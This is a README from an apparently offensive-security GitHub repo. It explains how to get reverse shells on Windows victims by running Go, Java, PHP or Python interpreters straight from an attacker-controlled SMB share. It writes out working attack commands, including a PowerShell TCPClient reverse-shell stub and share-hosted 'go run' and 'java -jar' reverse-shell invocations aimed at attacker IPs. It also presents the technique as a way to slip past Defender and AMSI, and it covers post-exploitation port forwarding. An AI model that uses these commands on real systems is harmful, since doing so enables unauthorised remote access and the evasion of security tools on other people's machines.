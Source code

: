 # LOI Bins (Living off the Island) Binaries - A remote SMB Island in the middle of nowhere
## Abusing Remote Windows SMB Shares to Get Reverse Shells In ~~Any~~ Some Programming Languages

This repo is WIP (Work In Progress)

This is some research and techniques of ways to Execute Code in a number of different Programming Languages on a Victim Windows Host which doesnt have the environment installed.

This is nothing ground breaking, but I havent seen this technique documented anywhere. As long as you have the right environment installed on your Attacker Controlled Windows Device you can essentially run any code you wish in memory. 

More will be added as and when I have the time to research it.

Programming Languages Tested With

1. [Go](#Go)
2. [Java](#example-with-java)
3. [PHP](#example-with-php)
4. Python - See here https://github.com/deeexcee-io/Eazee-As-Py

Post exploitation Techniques

1. [Python Port Forward - No SSH](#port-forward-example)
2. [Python Interpreter in Memory](#python-interpreter-example)

## Set the Scene

Lets say you have command execution on a host, your going to want to run a command to return a reverse shell. I would normally for something like `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.0.169',4444);........" `

Now with this aproach we have AMSI and Defender/AV. Running something like this without an AMSI bypass or obfuscation will get killed. Assuming our victim can reach out over SMB, we could either copy files over and execute or just execute an .exe straight from the share which is nothing new.

This approach does that but what we can do is call the .exe of our programming language of choice and also pass it a script, both of which are stored on our attacker controlled SMB share. Defender still scans the scripts but by utilising **Go, Java, PHP etc** we have more flexibility to bypass static signatures. Testing with random un-obfuscated reverse shell scripts in these languages has proved successful.

You can also utilise these programming languages to carry out post exploitation in weird and wonderful ways. You could even just call python.exe from the remote share and drop straight into the [Interpreter](#python-interpreter-example). 

The process is extremely simple.

## <a name="Go"></a>Example with Go

1. Have a Windows Victim where you can run commands
2. Have a Windows Attack Box with your Programming Environment of choice - Python Java and Go are the only ones I have tested so far
3. Have a Kali Box or NCat on your Windows Attack Box to catch the Reverse Shell
4. Share the Folder where your Python/Java/Go.exe Application is
5. Have your Reverse Shell script also in the same folder
6. Run your command in CMD/PowerShell i.e with Go it is `\\192.168.59.130\Go\go.exe run \\192.168.59.130\Go\shell.go` where `\\192.168.59.130\Go\` is the Attacker Controlled Remote Share and `run` for `go run` and `\\192.168.59.130\Go\shell.go` is the Reverse Shell Code.

  ![image](https://user-images.githubusercontent.com/130473605/235157805-16805cb8-0019-44a7-acb2-4717a273c60a.png)


7. Sit back and execute Go on a Windows Victim Host that doesnt have it installed.

**NB - Give it time, can take a while to drop in**

![image](https://user-images.githubusercontent.com/130473605/235159127-c5551ddd-07b3-408e-baa7-ec45869b56ab.png)

**NBNB - shell.go is FUD @ 28/04/2023**

![image](https://user-images.githubusercontent.com/130473605/235163241-a43353c0-f538-4b6b-ad3e-4943631242ec.png)


## <a name="Java"></a>Example with Java

1. Download and Install JRE 
2. Share /bin folder - C:\Program Files\Java\jre-1.8\bin - I renamed my bin folder JRE when sharing in Advanced Sharing
3. Download Reverse-Shell.jar and place in /bin folder - Stolen from https://github.com/ivan-sincek/java-reverse-tcp/blob/main/jar/Reverse_Shell.jar
4. Execute java and jar file whilst bypassing Defender `\\192.168.59.130\JRE\bin\java -jar \\192.168.59.130\JRE\bin\Reverse_Shell.jar 10.201.20.61 8445`

![image](https://user-images.githubusercontent.com/130473605/235175752-b3b26e3d-5f12-4052-a124-a498cc28a8c8.png)

5. Enjoy a Java Reverse Shell from a Windows Host that doesnt have Java Installed

![image](https://user-images.githubusercontent.com/130473605/235176177-20c77e58-0a72-49e4-8036-317389f6591d.png)

## <a name="PHP"></a>Example with PHP

Same as above. Install PHP on Windows and call the php.exe application and reverse shell script.

![image](https://user-images.githubusercontent.com/130473605/235460758-c8660755-0280-4eac-a53a-4a73e0d0dfb3.png)

Catch Shell in Kali

![image](https://user-images.githubusercontent.com/130473605/235460817-62909b39-33fc-4e5c-9de9-17e057bec08a.png)


## <a name="PF"></a>Port Forward Example

## Post Exploitation

In this example you have a HTTP Server listening on localhost and want to exploit it (My Nessus Server in this case port 8834)


![image](https://user-images.githubusercontent.com/130473605/235459846-d72eb2f6-b35a-49f7-9ea4-faf5e8ef3a03.png)


Point to remote share and port forward script telling the host to listen on port 22222 and forward any traffic to 127.0.0.1:8834 (nessus)

![image](https://user-images.githubusercontent.com/130473605/235459541-ddb4806d-4ab0-41e4-8886-63ec8c2f2791.png)

This opens up an external port which you can then browse to. You can now access the Internal HTTP Server on your attacking machine. 

![image](https://user-images.githubusercontent.com/130473605/235460235-828b6079-1920-4907-a91c-6d8461a0b86d.png)

## <a name="PF"></a>Python Interpreter Example

Its as simple as pointing to a remote share which then loads python into memory. 

![image](https://user-images.githubusercontent.com/130473605/235461798-2cc3bada-d39e-48f7-82d1-d6a207d600ae.png)

![image](https://user-images.githubusercontent.com/130473605/235464000-614a31d4-8847-413f-8a21-15826483bbbf.png)

